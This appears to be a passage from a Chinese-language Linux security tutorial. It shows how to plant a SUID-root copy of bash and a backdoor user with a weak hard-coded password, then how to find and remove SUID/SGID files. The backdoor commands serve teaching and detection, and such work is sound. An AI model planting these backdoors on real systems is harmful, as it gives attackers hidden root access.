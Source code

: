 ```bash
 useradd -p `openssl passwd -1 -salt 'salt' 123456` guest
```   
![Alt text](image-110.png)   
将shell复制到tmp下，然后给 s 权限。   
```bash
 cp /bin/bash /temp/bash 
 chmod u+s /temp/bash
```
![Alt text](image-111.png)   
切换普通用户 `guest`。   
```bash
 su guest
```
然后执行：   
```bash
 /temp/bash -p
 whoami
```
![Alt text](image-112.png)   
排查技巧：   
```bash
 # 在Linux中查找使用SUID设置的文件 
 find . -perm /4000 
 # 在Linux中查找使用SGID设置的文件 
 find . -perm /2000 
 # 取消s权限 
 chmod u-s /tmp/shell
```